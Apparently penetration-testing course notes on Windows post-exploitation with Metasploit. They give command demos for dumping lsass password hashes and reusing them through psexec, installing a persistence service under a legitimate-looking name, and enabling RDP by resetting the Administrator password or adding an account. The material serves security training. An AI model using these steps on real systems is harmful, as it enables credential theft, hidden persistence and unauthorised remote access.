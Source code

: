 ### DEMO

```shell
meterpreter: pgrep lsass
meterpreter: migrate <PID-lsass>
meterpreter: hashdump
# Save the hash in a file 
msf6: exploit(windows/smb/psexec)
msf6: set SMBUser <user>
msf6: set SMBPass <hash-or-clear>
```


# Establishing Persistence on Windows 

- Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access
- Gaining an initial foothold is not enough, you need to setup and maintain persistent access to your targets
- We can utilize various post exploitation persistence modules to ensure that we always have access to the target system

### DEMO

```shell
# First get a privileg access, then:
meterpreter: exploit(windows/local/persistence_service)
meterpreter: set service_name <name> # Use one seems legit 
# Attention to lhost and lport when generating the payload

# Re-get access
msf6: exploit(multi/handler) # Remember the port set in payload
```


# Enabling RDP

- The Remote Desktop Protocol (RDP) is a proprietary GUI remote access protocol developed by Microsoft and is used to remotely connect and interact with a Windows system
- RDP uses TCP port 3389 by default
- RDP is disabled by default, however, we can utilize an MSF exploit module to enable RDP on the Windows target and consequently utilize RDP to remotely access to the target system
- RDP authentication requires a legitimate user account on the target system as well as the user's password in clear-text

### DEMO

```shell
# First exploit, then
meterpreter: post(windows/manage/enable_rdp) # If want can create a new user
meterpreter: shell
C:\Windows\system32> net users # List users 
# Need user and password in clear-text 
# We can change administrator user, but not recommended
# Usually better create a new user account
C:\Windows\system32> net users Administrator <new-password> # Change the password 

# New shell tab, in Linux env
xfreerdp /u:<user> /p:<clear-password> /v:<target-ip>
```
